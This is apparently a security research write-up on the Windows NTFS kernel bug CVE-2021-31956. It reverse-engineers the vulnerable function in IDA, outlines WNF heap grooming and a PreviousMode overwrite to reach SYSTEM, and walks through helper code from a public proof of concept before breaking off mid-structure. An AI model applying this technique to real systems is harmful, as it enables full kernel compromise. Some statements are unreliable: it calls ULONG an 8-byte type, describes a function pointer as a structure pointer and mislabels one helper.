









Table of Contents
- Table of Contents
- Introduction
- Reverse Engineering CVE-2021-31956
- Exploiting CVE-2021-31956
- Returning to the Advisory
- Exploitation Overview
- Examining Y3A's Proof-of-Concept
- Include Directives
- NULL-Pointer Declarations
- The write64 Function
- The read64 Function
- The fix_runrefs Function
- The steal_token Function
- The write_pool Function
- The read_pool Function
- The find_chunk Function
- The overflow_chunk Function
- The fragment_heap Function
- The spray_heap Function
- The get_eproc Function
- References
Introduction
CVE-2021-31956 is a Windows kernel local privilege escalation vulnerability found in multiple Windows versions including but not limited to Windows 10 20H2. The computer security company Kaspersky first detected the vulnerability as a actively-exploited issue found in-the-wild.
Reverse Engineering CVE-2021-31956
To start things off with, we will examine the advisory posted by Kaspersky and then use the information provided to find the vulnerability ourselves.
The Initial Advisory
The relevant portions of the vulnerability advisory posted by Kaspersky is as follows:
The other vulnerability, CVE-2021-31956, is a heap-based buffer overflow in
ntfs.sys. The functionNtfsQueryEaUserEaListprocesses a list of extended attributes for the file and stores the retrieved values to a buffer. This function is accessible via antoskrnlsystem call and among other things it's possible to control the size of the output buffer. If the size of the extended attribute is not aligned, the function will calculate a padding and the next extended attribute will be stored at a 32-bit alignment. The code then checks if the output buffer is long enough to fit the extended attribute with padding, but it doesn't check for a possible integer underflow. As a result, a heap-based buffer overflow can occur.
The exploit uses CVE-2021-31956 alongside the Windows Notification Facility (WNF) to create arbitrary memory read and write primitives. We are planning to publish more information about this technique in the future.
As the exploit uses CVE-2021-31955 to get the kernel address of the EPROCESS structure, it is able to use the common post-exploitation technique to steal the SYSTEM token. However, the exploit uses a rarely used "PreviousMode" technique instead. We have seen this technique used by the CHAINSHOT framework and even made a presentation about it at CanSecWest/BlueHat in 2019. The exploit then uses this technique to inject a malware module into the system process and executes it.
Alongside the advisory, Kaspersky also posted the following pseudocode highlighting the vulnerable code in the NtfsQueryEaUserEaList function:
for ( cur_ea_list_entry = ea_list; ; cur_ea_list_entry = next_ea_list_entry )
{
...
out_buf_pos = (DWORD *)(out_buf + padding + occupied_length);
if ( NtfsLocateEaByName(eas_blocks_for_file, eas_blocks_size, &name, &ea_block_pos) )
{
ea_block = eas_blocks_for_file + ea_block_pos;
ea_block_size = ea_block->DataLength + ea_block->NameLength + 9;
if ( ea_block_size <= out_buf_length - padding ) // integer-underflow is possible
{
memmove(out_buf_pos, (const void *)ea_block, ea_block_size); // heap buffer overflow
*out_buf_pos = 0;
}
}
else
{
...
}
...
occupied_length += ea_block_size + padding;
out_buf_length -= ea_block_size + padding;
padding = ((ea_block_size + 3) & 0xFFFFFFFC) - ea_block_size;
...
}
Based on the analysis performed by Y3A, we can summarize the advisory as follows:
There is a heap-based buffer overflow from an integer-underflow in the
ntfs.sysfunctionNtfsQueryEaUserEaListwhich is accessible via antoskrnl.exesystem call. After gaining a kernel-mode write primitive, the exploit uses CVE-2021-31956 with the Windows Notification Facility and anPreviousModeoverwrite technique for the exploit'sEPROCESSstructure.
We can now move onto finding the vulnerability ourselves.
Recreating CVE-2021-31956
This next section focuses on how to find the vulnerability using IDA and WinDbg. In particular, we will be discussing the steps needed to both recreate the work already done by the vulnerability advisory as well as other researchers.
Locating NtfsQueryEaUserEaList in IDA
Our focus now is to locate the function NtfsQueryEaUserEaList in a vulnerable version of ntfs.sys. In our case, we will be using a version from Windows 10 20H2. Once we have a version of the vulnerable driver, we will open it in IDA and locate NtfsQueryEaUserEaList in IDA:

As well as examining the pseudocode as shown in the advisory, we will also be looking through each basic block as it corresponds to the pseudocode. When we first generate the pseudocode for NtfsQueryEaUserEaList, we notice that we are missing both the variable names and possibly a data structure:
for ( i = a6; ; i = (unsigned int *)((char *)i + *i) )
{
//...
v16 = (_DWORD *)(a4 + v9 + v26);
if //...
{
//...
if ( (unsigned __int8)NtfsLocateEaByName(a2, *(unsigned int *)(a3 + 4), &DestinationString, &v21) )
{
v20 = a2 + v21;
v17 = *(unsigned __int16 *)(v20 + 6) + *(unsigned __int8 *)(v20 + 5) + 9;
if ( v17 <= a5 - v9 )
{
memmove(v16, (const void *)v20, v17);
*v16 = 0;
goto LABEL_8;
}
}
else
{
//...
if //...
{
//...
if //...
{
if //...
{
v23 = v16;
a5 -= v17 + v9;
v9 = ((v17 + 3) & 0xFFFFFFFC) - v17;
goto LABEL_24;
}
}
//...
}
}
//...
}
//...
}
It is interesting to note that the our disassembly that IDA produced is quite different from the advisory. This may be due to a different vulnerable version of ntfs.sys. However, we will not worry about it for now as it does not seem to impact the exploitability of this bug.
Adding a Custom Data Structure in IDA
Now that we have located the vulnerable function ourselves, let's proceed to recreate the data structure shown in the advisory:
ea_block_size = ea_block->DataLength + ea_block->NameLength + 9;
Here, we see that this structure provides extended attributes with two separate types of lengths. Now, using the search query
extended attribute length structure microsoft
We get the following two results:

We examine both structures, and we discover the FILE_FULL_EA_INFORMATION structure is the only structure out of the two to have two separate lengths defined:
typedef struct _FILE_FULL_EA_INFORMATION {
ULONG NextEntryOffset;
UCHAR Flags;
UCHAR EaNameLength;
USHORT EaValueLength;
CHAR EaName[1];
} FILE_FULL_EA_INFORMATION, *PFILE_FULL_EA_INFORMATION;
Now that we have the associated structure for the vulnerable code in NtfsQueryEaUserEaList, we will now go to View -> Open subviews -> Local types:

Once there, we will then right click within the view and select Insert:

A dialog box will then appear, within the dialog box we paste the FILE_FULL_EA_INFORMATION structure:

We then click Ok and head back to the variable v20, right-click on it, and select Convert to struct...*:

We will then go to our entry for FILE_FULL_EA_INFORMATION, select it, and click Ok:

At this point, we see that our data structure updated within IDA:

Renaming Variables in IDA
Now that we have added our custom data structure, we can proceed to rename our variables in IDA to that of the variables provided in the initial advisory:
for ( cur_ea_list_entry = ea_list;
;
cur_ea_list_entry = (unsigned int *)((char *)cur_ea_list_entry + *cur_ea_list_entry) )
{
//...
if //...
{
//...
out_buf_pos = (_DWORD *)(out_buf + padding + occupied_length);
if ( (unsigned __int8)NtfsLocateEaByName(eas_blocks_for_file, *(unsigned int *)(a3 + 4), &name, &ea_block_pos) )
{
ea_block = (_FILE_FULL_EA_INFORMATION *)(eas_blocks_for_file + ea_block_pos);
ea_block_size = ea_block->EaValueLength + ea_block->EaNameLength + 9;
if ( ea_block_size <= out_buf_length - padding )
{
memmove(out_buf_pos, ea_block, ea_block_size);
*out_buf_pos = 0;
goto LABEL_8;
}
}
else
{
//...
if //...
{
//...
if //...
{
if //...
{
v23 = out_buf_pos;
out_buf_length -= ea_block_size + padding;
padding = ((ea_block_size + 3) & 0xFFFFFFFC) - ea_block_size;
//...
}
}
//...
}
}
//...
}
One thing to note is that we are missing the eas_blocks_size parameter as our version of ntfs.sys uses a data structure value instead of a direct parameter as in the advisory. In addition, the iteration of occupied_length is slightly different.Finally, the way the for loop iterates through each entry is counted differently. However, since these differences do not seem to impact the exploit, we will ignore them.
Analyzing the Basic Blocks and Pseudocode in IDA
Now that we have all pertinent data structures and variables in the vulnerable function NtfsQueryEaUserEaList, let's proceed to include more of the pseudocode to then better learn why this vulnerability exists in the first place. We will take the pseudocode provided by the Alex Plaskett in their analysis of CVE-2021-31956 and recontextualize it to our version of ntfs.sys:
__int64 __fastcall NtfsQueryEaUserEaList(
__int64 a1,
__int64 eas_blocks_for_file,
__int64 a3,
__int64 out_buf,
unsigned int out_buf_length,
unsigned int *ea_list,
char a7)
{
//...
unsigned int padding; // r15d
//...
padding = 0;
occupied_length = 0;
while ( 1 )
{
//...
for ( cur_ea_list_entry = ea_list; ; cur_ea_list_entry = (unsigned int *)((char *)cur_ea_list_entry + *cur_ea_list_entry) )
{
if ( cur_ea_list_entry == v11 )
{
v15 = occupied_length;
out_buf_pos = (_DWORD *)(out_buf + padding + occupied_length);
if ( (unsigned __int8)NtfsLocateEaByName(eas_blocks_for_file, *(unsigned int *)(a3 + 4), &name, &ea_block_pos) )
{
ea_block = (_FILE_FULL_EA_INFORMATION *)(eas_blocks_for_file + ea_block_pos);
ea_block_size = ea_block->EaValueLength + ea_block->EaNameLength + 9;
if ( ea_block_size <= out_buf_length - padding )
{
memmove(out_buf_pos, ea_block, ea_block_size);
*out_buf_pos = 0;
goto LABEL_8;
}
}
else
{
ea_block_size = *((unsigned __int8 *)v11 + 4) + 9;
if ( ea_block_size + padding <= out_buf_length )
{
//...
*((_BYTE *)out_buf_pos + *((unsigned __int8 *)v11 + 4) + 8) = 0;
//...
v18 = ea_block_size + padding + v15;
occupied_length = v18;
if ( !a7 )
{
if ( v23 )
*v23 = (_DWORD)out_buf_pos - (_DWORD)v23;
if ( *v11 )
{
v23 = out_buf_pos;
out_buf_length -= ea_block_size + padding;
padding = ((ea_block_size + 3) & 0xFFFFFFFC) - ea_block_size;
goto LABEL_24;
}
}
//...
}
}
//...
}
//...
}
//...
}
//...
}
Now that we have the recontextualized pseudocode of NtfsQueryEaUserEaList, let's walk through what a syscall to NtfsQueryEaUserEaList would look like alongside each basic block.
Examining a Syscall to NtfsQueryEaUserEaList
For this section, we will be walking through the analysis done by the Alex Plaskett in their blog post analyzing CVE-2021-31956. To start things off, let's examine both the for loop and the primary if condition vulnerable to CVE-2021-31965:
//...
for ( cur_ea_list_entry = ea_list; ; cur_ea_list_entry = (unsigned int *)((char *)cur_ea_list_entry + *cur_ea_list_entry) )
{
if ( cur_ea_list_entry == v11 )
{
//...
if ( (unsigned __int8)NtfsLocateEaByName(eas_blocks_for_file, *(unsigned int *)(a3 + 4), &name, &ea_block_pos) )
{
ea_block = (_FILE_FULL_EA_INFORMATION *)(eas_blocks_for_file + ea_block_pos);
ea_block_size = ea_block->EaValueLength + ea_block->EaNameLength + 9;
if ( ea_block_size <= out_buf_length - padding )
{
memmove(out_buf_pos, ea_block, ea_block_size);
*out_buf_pos = 0;
goto LABEL_8;
}
}
//...
}
//...
}
Looking at the basic block representation, we see that the for loop starts here:

As we can see, each value in cur_ea_list_entry is checked against v11 or in other words, the value in the register RBX is compared to the value in R12. If the value in RBX is not equal to the value in R12, the loop takes the green code path. According to the advisory, the vulnerable function path for CVE-2021-31956 occurs when this basic block fails the check and takes the red code path. So far we have covered the following loop and check from our pseudocode:
//...
for ( cur_ea_list_entry = ea_list; ; cur_ea_list_entry = (unsigned int *)((char *)cur_ea_list_entry + *cur_ea_list_entry) )
{
if ( cur_ea_list_entry == v11 )
{
// WE ARE HERE
}
//...
}
We proceed to examine the next basic block we reach after not jumping with the JNZ instruction:

Now, according to the advisory, we want to pass this check and jump with the JNZ instruction. We can assume that the NtfsLocateEaByName probably checks if an Extended Attribute is present, and if so return 0 and jump. We now have covered the next if condition and we reexamine our position within the pseudocode:
//...
for ( cur_ea_list_entry = ea_list; ; cur_ea_list_entry = (unsigned int *)((char *)cur_ea_list_entry + *cur_ea_list_entry) )
{
if ( cur_ea_list_entry == v11 )
{
v15 = occupied_length;
out_buf_pos = (_DWORD *)(out_buf + padding + occupied_length);
if ( (unsigned __int8)NtfsLocateEaByName(eas_blocks_for_file, *(unsigned int *)(a3 + 4), &name, &ea_block_pos) )
{
// WE ARE HERE
}
//...
}
//...
}
We've now reached the vulnerable code inside of NtfsQueryEaUserEaList:

Looking at the diagram above, we can see two specific things:
- According to the x64 fastcall calling convention, RDX is the second input parameter for a function call. In our case, we know that RDX is user-controlled as per the advisory from Kaspersky.Therefore, we move onto the second observation.
- If our controlled value is less than or equal to the output buffer length minus the padding, we pass the
ifcondition.
Now since we control half of the vulnerable if comparison, we should look further into what the other half entails. We continue to follow the basic block code path until we reach the code that sets the size of the padding:

Here, based again off of the information provided in the advisory, we see that the padding is calculated in such a way to store the next extended attribute with a 32-bit alignment.
This is where the vulnerability occurs. If an attacker is able to create a perfectly aligned output buffer, we would pass the check where the ea_block_size variable is less than or equal to the output buffer's length minus a padding of 0.
Exploiting CVE-2021-31956
Now that we have an understanding of the vulnerability. We can now proceed to examine both the exploit used and the context in which it was originally discovered.
Returning to the Advisory
Before striking out on our own, let's go ahead and review the information already provided by Kaspersky in their advisory for CVE-2021-31956.
Exploit Chain
In Kaspersky's initial triage of the discovery, CVE-2021-31956 was part of a larger chain of vulnerabilities used to escape the Google Chrome browser and use CVE-2021-31956 to escalate privileges and gain remote code execution as the Windows kernel.
As mentioned previously, the attackers used
CVE-2021-21224 as a means to escape the Chrome
sandbox and gain remote code execution. Then, the attackers seemingly
used another exploit, chiefly CVE-2021-31955 to
obtain the kernel address of the current process' EPROCESS value
to then overwrite the PreviousMode offset to then set the current process'
context to that of SYSTEM.
EPROCESS Structure
What is the EPROCESS structure? According to Microsoft:
The EPROCESS structure is an opaque structure that serves as the process object for a process.
In layman's terms, this basically means that if an attacker obtains the EPROCESS memory address for their current process, if they had a kernel-mode write primitive, they would be able to escalate their privileges to SYSTEM. The specifics of this technique is described in the next section.
PreviousMode Overwrite
As noted by Kaspersky, traditionally, an attacker would steal the SYSTEM token to escalate privileges. However, by overwriting the PreviousMode field with 0x0, it is possible to then execute various routines from user-made in kernel-mode. This means that with the PreviousMode field set to 0x0, parameters are trusted and thus are not checked by the kernel.
Now that we have a basic grasp of the context of what CVE-2021-31956 does and how it was discovered, let's now explore the proof-of-concept used to exploit this vulnerability.
Exploitation Overview
In order to arbitrarily read and write to anywhere in memory, we will need to first groom the heap until our NTFS buffer is next to a _WNF_STATE_DATA chunk. Then, we will need to overflow the AllocatedSize and DataSize fields within the _WNF_STATE_DATA chunk. The AllocatedSize and DataSize fields now provide us with the ability to read and write within the pool after this chunk. Specifically, AllocatedSize determines the number of bytes that can be written whereas DataSize determines the number of bytes that can be read. Using this read and write ability, we will then locate a _WNF_NAME_INSTANCE chunk and read it's StateName to . In addition, we will use our write to overwrite the StateData parameter in the _WNF_NAME_INSTANCE chunk to point anywhere in memory, so long as the location in memory has a _WNF_STATE_DATA structure.

Examining Y3A's Proof-of-Concept
In this section we will be looking at the approach Y3A took to exploit CVE-2021-31956. Our goal is to break down every section and understand exactly why the exploit works and the concepts behind each technique used.
Include Directives
Now that we understand the context in which the vulnerability was originally used, let's explore the proof-of-concept Y3A of Star Labs created to exploit CVE-2021-31956.
To start things off, we will examine the import section of the
proof-of-concept. As with most C++ source code, the first section is
usually a series of #include directives:
#include <stdio.h>
#include <Windows.h>
#include <ntstatus.h>
#include <TlHelp32.h>
#include "CVE-2021-31956.h"
As defined by Microsoft, the #include
directive informs the C++ preprocessor to add the contents of the
specified file at the location of the #include directive in the source
code.
Looking at the above code block, we notice the first four #include
directives use angle bracket notation whereas the last #include
directive uses the quotation notation to describe the target header
file. According to the GNU Foundation, angle brackets
or #include <file> are used to specify system header files. However,
double quotation marks or #include "file" are used to define a
user-generated header file. The search location for angle bracket
#include directives is within a standard list of system directories
whereas for double quotation mark #include directives the search
location is within the directory of the source code.
NULL-Pointer Declarations
Moving on, we now examine the NULL-pointer declaration and type-casting
used prior to the main function:
NQSI _NtQuerySystemInformation = (NQSI)NULL;
NQEF _NtQueryEaFile = (NQEF)NULL;
NSEF _NtSetEaFile = (NSEF)NULL;
NCWSN _NtCreateWnfStateName = (NCWSN)NULL;
NUWSD _NtUpdateWnfStateData = (NUWSD)NULL;
NDWSN _NtDeleteWnfStateName = (NDWSN)NULL;
NDWSD _NtDeleteWnfStateData = (NDWSD)NULL;
NQWSD _NtQueryWnfStateData = (NQWSD)NULL;
NRVM _NtReadVirtualMemory = (NRVM)NULL;
NWVM _NtWriteVirtualMemory = (NWVM)NULL;
In order to effectively break each line down, we will also pair each
NULL-pointer declaration and type-casting to its respective type
definition found in the CVE-2021-31956.h header file. To start things
off, let's look at the first line:
NQSI _NtQuerySystemInformation = (NQSI)NULL;
Here, we see that the variable _NtQuerySystemInformation is of type
NQSI with the same type being type-cast to the value NULL. According
to East Carolina University, it is possible to use
typedef to give a function type a name. For example,
typedef NTSTATUS(NTAPI *NQSI) (
IN SYSTEM_INFORMATION_CLASS SystemInformationClass,
OUT PVOID SystemInformation,
IN ULONG SystemInformationLength,
OUT PULONG ReturnLength OPTIONAL
);
Would define the function pointer NQSI of type NTAPI to be the type
of the function that takes 4 arguments and returns an NTSTATUS value.
Without loss of generality, it is possible to use this same approach to
the other NULL-pointer declarations and type-castings.
The write64 Function
Looking at the write64 function declaration, namely:
void write64(ULONG_PTR addr, UINT64 data)
We notice it has a return value of void indicating that it does not
return a value. In addition, we see that it takes a Unsigned Long
pointer and a Unsigned 64-bit integer as input. Examining the function
definition we see the following:
char buf[8] = { 0 };
ULONG wrote;
*(UINT64 *)buf = data;
_NtWriteVirtualMemory(GetCurrentProcess(), (PVOID)addr, buf, 0x8, &wrote);
return;
First, a char array called buf and of size 8 with its elements
initialized to 0. We also notice the variable wrote is declared of
type ULONG. According to Microsoft, a ULong
data type contains an 8-byte unsigned integer. Next, we see the
pointer buf being cast to a pointer of type UINT64 before being
dereferenced and given the value of data. As such, the datatype of the
content pointed to by buf will now be interpreted as a UINT64, in this
case as a 64-bit unsigned integer.
Before examining the final line, let's look at the type definition for
the NWVM datatype:
typedef NTSTATUS (NTAPI *NWVM)(
IN HANDLE ProcessHandle,
IN PVOID BaseAddress,
IN PVOID Buffer,
IN ULONG NumberOfBytesToWrite,
OUT PULONG NumberOfBytesWritten OPTIONAL
);
We are looking at the type definition for NWVM as a function prototype
for _NtWriteVirtualMemory does not exist in this file and it seems
what the author did was use the NULL-pointer declaration and
type-casting
NWVM _NtWriteVirtualMemory = (NWVM)NULL;
To create a NULL-pointer named _NtWriteVirtualMemory of type NWVM
where they then called this pointer in the third to final line in
write64:
_NtWriteVirtualMemory(GetCurrentProcess(), (PVOID)addr, buf, 0x8, &wrote);
As we can see from the NWVM datatype type definition, we have the
following observations:
- The returned handle from
GetCurrentProcess()is passed asProcessHandle. - The void pointer
addrprovided as the first input value is passed asBaseAddress. - The Unsigned 64-bit integer pointer
bufis passed asBufferwhich has the void pointer datatype. - The hexadecimal value
0x8is passed as the Unsigned LongNumberOfBytesToWrite. - The memory address
&wroteis passed as the output bufferNumberOfBytesWritten.
Interestingly enough, since _NtWriteVirtualMemory was not called as a
function, but rather as a pointer to a structure, the return value is
not assigned to a variable within the function. Instead after calling
_NtWriteVirtualMemory, the function simply returns with no return
value.
Based on our analysis, we can conclude that the purpose of this function is to call NtWriteVirtualMemory and subsequently write the content buf at the location addr.
The read64 Function
Looking at the read64 function declaration, we see that it accepts a
Unsigned Long pointer called addr as input and returns a Unsigned
64-bit integer:
UINT64 read64(ULONG_PTR addr)
Next, as with the write64 function, we notice that a char array and
a Unsigned Long value are declared with the buf character array being
initialized to 0:
char buf[8] = { 0 };
ULONG read;
Before examining the NULL-pointer function call, let's look at the pointer type definition for NRVM:
typedef NTSTATUS (NTAPI *NRVM)(
IN HANDLE ProcessHandle,
IN PVOID BaseAddress,
OUT PVOID Buffer,
IN ULONG NumberOfBytesToRead,
OUT PULONG NumberOfBytesReaded OPTIONAL
);
Here, we see a similar structure to that of _NtWriteVirtualMemory. As such, we won't go into as much detail except to break down the values passed from writ64 to the NULL-pointer function call:
_NtReadVirtualMemory(GetCurrentProcess(), (PVOID)addr, buf, 0x8, &read);
We can see the following:
- The
HANDLEfromGetCurrentProcess()is passed asProcessHandle. - The
addrprovided as input towrite64function is passed as theBaseAddress. - The initialized buffer
bufis then passed as the output bufferBuffer. - The value
0x8is passed as theNumberOfBytesToRead. - The address to the Unsigned Long value
readis passed as&read.
Finally, the write64 function returns a pointer to the Unsigned 64-bit integer output buffer buf:
return *(UINT64 *)buf;
In conclusion, our analysis shows that the purpose of this function is call NtReadVirtualMemory and return the contents buf from the address addr.
The fix_runrefs Function
Reviewing the blog post by Y3A, we see that the fix_runrefs function is used to clean up the heap after exploiting CVE-2021-31956.
Reviewing the exploitation process covered in Exploitation Overview, We notice that in order to overwrite the target StateData pointer, the preceding members in the _WNF_NAME_INSTANCE data structure may also be overwritten. Reviewing the _WNF_NAME_INSTANCE data structure from the Vergilius Project, we see the following:
//0xa8 bytes (sizeof)
struct _WNF_NAME_INSTANCE
{
struct _WNF_NODE_HEADER Header; //0x0
struct _EX_RUNDOWN_REF RunRef; //0x8
struct _RTL_BALANCED_NODE TreeLinks; //0x10
struct _WNF_STATE_NAME_STRUCT StateName; //0x28
struct _WNF_SCOPE_INSTANCE* ScopeInstance; //0x30
struct _WNF_STATE_NAME_REGISTRATION StateNameInfo; //0x38
struct _WNF_LOCK StateDataLock; //0x50
struct _WNF_STATE_DATA* StateData; //0x58
ULONG CurrentChangeStamp; //0x60
VOID* PermanentDataStore; //0x68
struct _WNF_LOCK StateSubscriptionListLock; //0x70
struct _LIST_ENTRY StateSubscriptionListHead; //0x78
struct _LIST_ENTRY TemporaryNameListEntry; //0x88
struct _EPROCESS* CreatorProcess; //0x98
LONG DataSubscribersCount; //0xa0
LONG CurrentDeliveryCount; //0xa4
};
As we can see, the RunRef member is located at an offset lower than that of StateData. As a result, it is possible for the RunRef member to be set to an invalid value during the exploitation process. If this is the case, the target system may crash and result in a Blue Screen of Death (BSOD). In order to prevent this from happening, the fix_runrefs function locates all affected _WNF_NAME_INSTANCE in memory by traversing the WnfContext field within our process's _EPROCESS. Once a _WNF_NAME_INSTANCE block is found, the RunRef member is set to 0. This is done since the RunRef member is a reference counter and by setting it to zero, we can avoid any issues if the system ever tries to use the this field.
Examining the function declaration for fix_runrefs, we see the following:
NTSTATUS fix_runrefs(_In_ PWNF_PROCESS_CONTEXT ctx)
The first thing we notice the SAL Annotation _In_. SAL Annotation, or Source-code Annotation Language, is defined by Microsoft as:
A set of annotations that you can use to describe how a function uses its parameters, the assumptions that it makes about them, and the guarantees that it makes when it finishes. Visual Studio code analysis for C++ uses SAL annotations to modify its analysis of functions. [...] Simply stated, SAL is an inexpensive way to let the compiler check your code for you.
According to Microsoft, _In_ or Input to called function, is used as a way to label data as:
Being passed to the called function, and is treated as read-only.
Next, we examine the pointer declaration for PWNF_PROCESS_CONTEXT:
typedef struct _WNF_PROCESS_CONTEXT
{
struct _WNF_NODE_HEADER Header; //0x0
struct _EPROCESS *Process; //0x8
struct _LIST_ENTRY WnfProcessesListEntry; //0x10
VOID *ImplicitScopeInstances[3]; //0x20
struct _WNF_LOCK TemporaryNamesListLock; //0x38
struct _LIST_ENTRY TemporaryNamesListHead; //0x40
struct _WNF_LOCK ProcessSubscriptionListLock; //0x50
struct _LIST_ENTRY ProcessSubscriptionListHead; //0x58
struct _WNF_LOCK DeliveryPendingListLock; //0x68
struct _LIST_ENTRY DeliveryPendingListHead; //0x70
struct _KEVENT *NotificationEvent; //0x80
} WNF_PROCESS_CONTEXT, *PWNF_PROCESS_CONTEXT;
We now know that the value ctx is a pointer to a _WNF_PROCESS_CONTEXT structure and is treated as read-only. Now that we have an understanding of the function declaration, let's move onto the function definition for fix_runrefs. In particular, let's first examine the first variable definition:
NTSTATUS status = STATUS_SUCCESS;
As shown above, we have a variable status of type NTSTATUS that contains the value 0x00000000 otherwise known as STATUS_SUCCESS. Interestingly enough, this value seemingly does not change and will always return STATUS_SUCCESS at the end of the function. Let's move onto the head variable:
PLIST_ENTRY head = (PLIST_ENTRY)read64(&(ctx->TemporaryNamesListHead));
The next variable is head, of type PLIST_ENTRY, and is set to the TemporaryNamesListHead member of the _WNF_PROCESS_CONTEXT structure pointed to by ctx. Let's take a moment to further break apart this variable definition. First, let's use the prototype provided by NirSoft to examine the data structure that PLIST_ENTRY points to:
typedef struct _LIST_ENTRY
{
PLIST_ENTRY Flink;
PLIST_ENTRY Blink;
} LIST_ENTRY, *PLIST_ENTRY;
As we can see, PLIST_ENTRY points to a _LIST_ENTRY structure. In our case, this structure is located at the memory address found in the TemporaryNamesListHead member of the ctx pointer. Examining the _WNF_PROCESS_CONTEXT structure from the Vergilius Project, we see the following:
//0x88 bytes (sizeof)
struct _WNF_PROCESS_CONTEXT
{
struct _WNF_NODE_HEADER Header; //0x0
struct _EPROCESS* Process; //0x8
struct _LIST_ENTRY WnfProcessesListEntry; //0x10
VOID* ImplicitScopeInstances[3]; //0x20
struct _WNF_LOCK TemporaryNamesListLock; //0x38
struct _LIST_ENTRY TemporaryNamesListHead; //0x40
struct _WNF_LOCK ProcessSubscriptionListLock; //0x50
struct _LIST_ENTRY ProcessSubscriptionListHead; //0x58
